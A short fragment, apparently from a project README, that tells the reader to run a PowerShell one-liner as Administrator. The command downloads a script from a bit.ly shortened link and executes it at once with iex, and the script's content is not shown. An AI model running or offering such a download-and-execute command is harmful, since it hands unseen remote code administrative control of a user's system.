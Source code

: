 Run from Windows Powershell as Administrator with the following command:
- `iex ((New-Object System.Net.WebClient).DownloadString('https://bit.ly/3rgUT1N'))`
